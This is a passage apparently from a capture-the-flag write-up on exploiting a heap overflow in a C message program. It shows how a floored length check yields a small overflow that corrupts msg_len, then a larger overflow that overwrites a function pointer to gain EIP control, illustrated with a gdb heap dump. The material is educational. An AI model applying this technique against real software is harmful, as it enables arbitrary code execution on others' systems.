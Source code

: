 The final message length is then used to specify the number of bytes to read into the 128 byte `unsigned int message[]` buffer.

But what happens if we specify the message length to be a value between 128 and 132 bytes? For example, 131 bytes?

**In the C programming language, the result is always floored for the division of positive integers. Therefore, if we specify 131 bytes, we will still pass the length check since 131/4 = 32.** 

This gives us a 3-byte overflow primitive!

And what comes after the `unsigned int message[]` buffer?

The message length!

{% highlight C%}
struct msg {
    void (* print_msg)(struct msg *);
    unsigned int xor_pad[MAX_BLOCKS];
    unsigned int message[MAX_BLOCKS];
    unsigned int msg_len;
};
{% endhighlight %}

We can use this heap overflow primitive to overwrite our message's own `msg_len` member and make it arbitrarily large up to `0xffffff`. 

We can subsequently use this newly overwritten length later in the `edit_message()` function to perform another heap overflow and corrupt any data after our initial heap chunk, including the `print_msg()` function pointer of the next chunk, allowing us to control EIP when we print out the message details of the 2nd chunk.

Here is what 2 allocated messages look like in the heap, before editing the 1st message. Notice the corrupted size of `0x414141` at `0x80f1af4`.
{% highlight bash %}
gdb-peda$ x/200xw 0x80f19f0 
0x80f19f0:      0x08048fd3      0x3533af89      0x61d321ab      0x0b083d7c
0x80f1a00:      0x1d75527c      0x1a2f4272      0x1f39293d      0x59e6bd11
0x80f1a10:      0x0ec2e802      0x09d26e5d      0x78cc57f2      0x0de00461
0x80f1a20:      0x7a11f3b6      0x1f091eed      0x72c574d1      0x66deaad5
0x80f1a30:      0x54d00421      0x7fa2d710      0x7e5f193b      0x67057a3f
0x80f1a40:      0x220d0a03      0x0a958023      0x4d3a5fbf      0x1b9c3b04
0x80f1a50:      0x150236a1      0x57f3cd3a      0x3a0749a4      0x37160cd7
0x80f1a60:      0x0c0418c7      0x4b93806d      0x3119bc44      0x25c568e7
0x80f1a70:      0x00c72ff6      0x7472eec8      0x209260ea      0x4a497c3d
0x80f1a80:      0x5c34133d      0x5b6e0333      0x5e78687c      0x18a7fc50
0x80f1a90:      0x4f83a943      0x48932f1c      0x398d16b3      0x4ca14520
0x80f1aa0:      0x3b50b2f7      0x5e485fac      0x33843590      0x279feb94
0x80f1ab0:      0x15914560      0x3ee39651      0x3f1e587a      0x26443b7e
0x80f1ac0:      0x634c4b42      0x4bd4c162      0x0c7b1efe      0x5add7a45
0x80f1ad0:      0x544377e0      0x16b28c7b      0x7b4608e5      0x76574d96
0x80f1ae0:      0x4d455986      0x0ad2c12c      0x7058fd05      0x648429a6
0x80f1af0:      0x41866eb7      0x00414141      0x00000000      0x00000111
0x80f1b00:      0x08048fd3      0x12ecddef      0x30cda664      0x1e3c8272
0x80f1b10:      0x2d1c2061      0x5006cfa1      0x78233f83      0x3bdf0863
0x80f1b20:      0x59d93dff      0x70ef9775      0x49bf0cc4      0x53eb31b5
0x80f1b30:      0x0ff8b663      0x3c848195      0x3ac9dc8a      0x64c8ba84
0x80f1b40:      0x3c2758a5      0x3928f5c5      0x4bce34c4      0x5e3462a9
0x80f1b50:      0x43be75e8      0x19089483      0x79d09dad      0x58c0ac89
0x80f1b60:      0x70fc61be      0x33d7e751      0x0fd6b961      0x7d007a85
0x80f1b70:      0x7f6b67be      0x40f075a5      0x22c5e36c      0x003297b4
0x80f1b80:      0x53dd5394      0x12ecddde      0x30cda664      0x1e3c8272
0x80f1b90:      0x2d1c2061      0x5006cfa1      0x78233f83      0x3bdf0863
0x80f1ba0:      0x59d93dff      0x70ef9775      0x49bf0cc4      0x53eb31b5
0x80f1bb0:      0x0ff8b663      0x3c848195      0x3ac9dc8a      0x64c8ba84
0x80f1bc0:      0x3c2758a5      0x3928f5c5      0x4bce34c4      0x5e3462a9
0x80f1bd0:      0x43be75e8      0x19089483      0x79d09dad      0x58c0ac89
0x80f1be0:      0x70fc61be      0x33d7e751      0x0fd6b961      0x7d007a85